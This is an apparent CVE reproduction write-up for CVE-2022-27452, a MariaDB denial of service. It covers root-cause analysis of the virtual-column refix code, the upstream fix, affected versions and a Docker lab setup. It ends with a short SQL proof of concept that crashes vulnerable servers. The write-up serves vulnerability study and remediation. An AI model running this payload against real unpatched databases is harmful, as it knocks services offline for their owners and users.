



# CVE-2022-27452 CWE-None MariaDB DoS via Segmentation Fault

## Vulnerability Background
- **MariaDB :** An open-source relational database management system developed by the founders of MySQL, highly compatible with MySQL. It features high performance, high security, and ease of use, supporting multiple storage engines to ensure reliable data storage and efficient read/write operations. At the same time, MariaDB also possesses powerful query optimization capabilities, enhancing database performance and being widely used across various industries, providing strong support for data storage and management.
- **Session-Level Function** refers to a type of function whose return value is not fixed but depends on the specific state of the current user's connection (or "session"). This means that even the exact same query may yield different results when executed in different sessions or at different points in the same session. Typical examples of such functions include getting the `CURRENT_USER()` or `USER()` of the current user identity, the `DATABASE()` of the current default database, the `NOW()` or `CURRENT_TIMESTAMP` of the query start time, and user-defined session variables. Due to the variability of their results, databases need to handle queries containing these functions with special care. For example, query results are usually not globally cached, virtual columns dependent on these functions need to be frequently recalculated, and in statement-based replication, they may cause inconsistencies between master and slave data. Therefore, proper handling of these functions is crucial for database optimization, caching, and data consistency.

## Vulnerability Mechanism
When handling a virtual column containing session-level functions (such as `DATABASE()` or `CURRENT_USER()`), MariaDB has memory management flaws. In vulnerable versions, whenever queries need to read such virtual columns, the server attempts to "refix" its internal expressions in an insecure environment. This repair process lacks necessary memory isolation, causing memory management confusion when cleaning old expression objects and creating new ones, resulting in "dangling pointers" pointing to freed memory. Ultimately, when the query executor tries to calculate the values of virtual columns through these dangling pointers, the server crashes due to segment errors.

## Vulnerability Location
In the SQL \table.cc file, line 3662 of the `fix_and_check_vcol_expr` function, when a virtual column containing session variables (such as `DATABASE()`) is created, it is marked as "needs refix." This function itself is not wrong, but setting the `vcols_need_refixing` flag is the first step in triggering subsequent unsafe operations.

```cpp
// SQL \table.cc has 3662 lines
static bool fix_and_check_vcol_expr(THD *thd, TABLE *table,
                                    Virtual_column_info *vcol)
{
  // ... (Perform expression parsing and checking in the first part of the code) ...

  /*
    Walk through the Item tree checking if all items are valid
    to be part of the virtual column
  */
  Item::vcol_func_processor_result res;

  int error= func_expr->walk(&Item::check_vcol_func_processor, 0, &res);
  
  // ... (Processing inspection results) ...

  vcol->flags= res.errors;

  // ===== 3721 line ========== vulnerability premise =============
  // If the expression contains session functions (VCOL_SESSION_FUNC),
  // This will set a flag for the entire table with vcols_need_refixing = true.
  // This sign is the "switch" that triggers subsequent dangerous operations.
  if (vcol->flags & VCOL_SESSION_FUNC)
    table->s->vcols_need_refixing= true;

  DBUG_RETURN(0);
}
```

At line 3625, the `fix_session_vcol_expr_for_read` function is used to re-repair the expression when reading data. When a query needs to read this tagged virtual column, it calls a series of functions to perform the "re-fix" process, and this process does not take place in a secure environment.

```cpp
/**
  @note this is called for generated column or a DEFAULT expression from
  their corresponding fix_fields on SELECT.
*/
bool fix_session_vcol_expr_for_read(THD *thd, Field *field,
                                    Virtual_column_info *vcol)
{
  DBUG_ENTER("fix_session_vcol_expr_for_read");
  TABLE_LIST *tl= field->table->pos_in_table_list;
  if (!tl || tl->lock_type >= TL_FIRST_WRITE)
    DBUG_RETURN(0);
    
  // Defect 1: Only the security context (Security_context) is switched, with no memory or namespace handled at all.
  Security_context *save_security_ctx= thd->security_ctx;
  if (tl->security_ctx)
    thd->security_ctx= tl->security_ctx;
    
  // The following function was called to clean and reconstruct the expression in an insecure environment.
  bool res= fix_session_vcol_expr(thd, vcol);
  
  thd->security_ctx= save_security_ctx;
  DBUG_RETURN(res);
}
```

Line 3608, `fix_session_vcol_expr` function is used to perform cleanup and rebuild. This high-risk operation in a "dirty environment" can easily cause memory corruption, generating idle pointers to freed memory. When subsequent code (such as `ORDER BY` clauses) attempts to access data through these pointers, **segment errors** occur, causing the server to crash.

```cpp
bool fix_session_vcol_expr(THD *thd, Virtual_column_info *vcol)
{
  DBUG_ENTER("fix_session_vcol_expr");
  if (!(vcol->flags & (VCOL_TIME_FUNC|VCOL_SESSION_FUNC)))
    DBUG_RETURN(0);

  // Defect 2: Cleanup the expression tree. If the memory arena and namespace are incorrect at this time,
  // This cleaning operation may cause memory damage. For example, it may have mistakenly released something that does not belong to
  // The memory of the current operation.
  vcol->expr->walk(&Item::cleanup_excluding_fields_processor, 0, 0);
  DBUG_ASSERT(!vcol->expr->fixed());
  
  // Defect 3: Reconstructing the expression tree. Similarly, creating new expressions in the incorrect memory arena
  // objects, which may cause the pointers of new and old objects to cross-reference, and eventually, after the old object is released,
  // The new object contains a "dangling pointer" pointing to invalid memory.
  DBUG_RETURN(fix_vcol_expr(thd, vcol));
}	
```

## Remediation
1. Introduce a brand-new class `Vcol_expr_context` Create a clean, isolated "sandbox" environment before re-fixing the expression.

   ```cpp
   Vcol_expr_context Implementation of the class, responsible for establishing and destroying the "sandbox"
   bool Vcol_expr_context::init()
   {
       /*
         As this is vcol expression we must narrow down name resolution to
         single table.
     */
       Temporarily restrict the naming and resolution context to the current table
       if (init_lex_with_single_table(thd, table, &lex))
       {
           my_error(ER_OUT_OF_RESOURCES, MYF(0));
           table->map= old_map;
           return true;
       }
       lex.sql_command= old_lex->sql_command;
       Temporarily reset the sql_mode to avoid session settings affecting parsing
       thd->variables.sql_mode= 0;
       TABLE_LIST const *tl= table->pos_in_table_list;
       DBUG_ASSERT(table->pos_in_table_list);
       if (table->pos_in_table_list->security_ctx)
           thd->security_ctx= tl->security_ctx;
       inited= true;
       return false;
   }
   
   Vcol_expr_context::~Vcol_expr_context()
   {
       if (!inited)
           return;
       During destructing, restore all modified contextual environments
       end_lex_with_single_table(thd, table, old_lex);
       table->map= old_map;
       thd->security_ctx= save_security_ctx;
       thd->variables.sql_mode= save_sql_mode;
   }
   ```

2. New, more precise member methods `TABLE::vcol_fix_expr` replace the old repair function.

   ```cpp
   This is a new fix, using the "safe sandbox" defined above
   bool TABLE::vcol_fix_expr(THD *thd)
   {
     a. Check whether the exact tracking list is empty; if it is, no action is required
     if (pos_in_table_list->placeholder() || vcol_refix_list.is_empty())
       return false;
     // ...
     
     b. Create Vcol_expr_context instances to automatically establish and destroy secure environments
     Vcol_expr_context expr_ctx(thd, this);
     if (expr_ctx.init())
       return true;
       
     c. In the "Sandbox," only iterate over the columns that need to be fixed and perform the fix
     List_iterator_fast <Virtual_column_info>  it(vcol_refix_list);
     while (Virtual_column_info *vcol= it++)
       if (vcol->fix_session_expr(thd))
         goto error;
         
     return false;
   error:
     DBUG_ASSERT(thd->get_stmt_da()->is_error());
     return true;
   }
   ```

3. The old Boolean marker `vcols_need_refixing` is replaced by the new list `vcol_refix_list`.

   ```cpp
   This is the modified Virtual_column_info::fix_and_check_expr function
   It is responsible for adding columns that need fixing to the new list
   bool Virtual_column_info::fix_and_check_expr(THD *thd, TABLE *table)
   {
       // ... The first part of the inspection logic ...
       
       flags= res.errors;
   
       If a session function is detected, the boolean tag is no longer set, but instead added to table->vcol_refix_list
       if (!table->s->tmp_table && need_refix())
           table->vcol_refix_list.push_back(this, &table->mem_root);
   
       DBUG_RETURN(0);
   }
   ```

## Affected Versions
MariaDB :

- 10.3.0 to 10.3.34
- 10.4.0 to 10.4.24
- 10.5.0 to 10.5.15
- 10.6.0 to 10.6.7
- 10.7.0 to 10.7.3

## Environment Setup
Starting the Docker environment, MariaDB version is 10.6.3, administrator user is root, password is 12345, there is a database test_db, open port 3306, and the container contains PoC file CVE-2022-27452-PoC.sql.

```txt
cpe:2.3:a:mariadb:mariadb:10.6.3:*:*:*:*:*:*:*
```



## Vulnerability Reproduction
1. Enter the container command line

```bash
docker exec -it mariadb-10.6.3 bash
```

2. Log in with the root user and connect to the database test_db, password 12345

```sql
mariadb -u root -p test_db
```

3. Run the PoC file CVE-2022-27452-PoC.sql, and you will see that an error has been encountered and the container will automatically close

```sql
source CVE-2022-27452-PoC.sql
```



4. Check the MariaDB container crash log; you can see that `[ERROR] mysqld got signal 11 ;` indicates a Segmentation Fault (segment error)

```bash
docker logs mariadb-10.6.3
```



## PoC Analysis

```sql
CREATE TABLE t1 (
  a INT,
  -- Virtual columns, dynamically generated from the following expressions
  b DATE AS (1 
             -- IN: Determines whether the expression on the left (here is 1) equals any element in the list on the right
             -- The right side of the list contains two elements: the string 'x' and the Boolean expression
             IN ('x', 
                 -- DATABASE() is the current database name, equal to 'x' if the result is 0 or 1, then check if it is NULL
                 ( DATABASE() = 'x' IS NULL)
                )
            )
);

-- Querying virtual column b recomputes the expression each time
SELECT b FROM t1;
-- Attempting to perform equal value comparison and sorting between strings and virtual columns b (date type) further investigates the problem of type mixing
SELECT a FROM t1 ORDER BY 'x' = b;
```

To execute `ORDER BY 'x' = b`, the optimizer and executor must compute the value of the virtual column `b`. When the server prepares to execute the query, it finds that table `t1` has a `vcols_need_refixing = true` mark. It argues that the expression in column `b` must be "refixed" to ensure that the value of the `DATABASE()` function is correct in the current session. At this point, the core of the vulnerability is triggered: the server calls the insecure function `fix_session_vcol_expr_for_read`.

Due to the lack of a "safe sandbox" like `Vcol_expr_context`, the above cleanup and reconstruction operations were carried out in a chaotic environment. This directly leads to the internal data structure of expression `b` (i.e., the `Item` tree) being corrupted, generating **hanging pointers** pointing to freed memory. After the memory structure of expression `b` is damaged, the query executor continues working, ultimately causing a crash.

## References
[NVD - CVE-2022-27452](https://nvd.nist.gov/vuln/detail/CVE-2022-27452)

[[MDEV-28090\] MariaDB SEGV issue - Jira](https://jira.mariadb.org/browse/MDEV-28090)

[[MDEV-24176\] Server crashes after insert in the table with virtual column generated using date_format() and if() - Jira](https://jira.mariadb.org/browse/MDEV-24176)

[MDEV-24176 Preparations · MariaDB/server@c02ebf3](https://github.com/MariaDB/server/commit/c02ebf3510850ba78a106be9974c94c3b97d8585#diff-d882d6b1070780bcfa092ddc19f73a82bc66f1466996729804fae91cba36f047)

[MDEV-24176 Server crashes after insert in the table with virtual · MariaDB/server@08c7ab4](https://github.com/MariaDB/server/commit/08c7ab404f69d9c4ca6ca7a9cf7eec74c804f917#diff-3cbf7bdfaaff92cec3c78662cdacdd8be2a1998494759c0429b77498ed674cf2)
